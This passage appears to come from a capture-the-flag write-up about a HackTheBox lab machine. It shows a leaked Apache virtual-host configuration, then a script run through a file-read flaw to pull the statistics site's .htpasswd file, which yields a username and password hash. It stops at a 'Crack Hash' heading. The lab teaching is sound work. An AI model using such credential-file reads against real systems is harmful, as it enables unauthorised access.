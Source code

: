 ```
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>

```

There are two sites defined here. The first is for the base domain. It include the `RewriteRule` for when the host doesn’t match `alert.htb`. It serves files from `/var/www/alert.htb`.

The second is for `statistics.alert.htb`. It services files from `/var/www/statistics.alert.htb`. It also defines the authentication with `AuthType`, `AuthName`, and `AuthUserFile`.

I’ll grab that `.htpasswd` file:

```

oxdf@hacky$ python make_request.py /var/www/statistics.alert.htb/.htpasswd
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>

```

#### Crack Hash
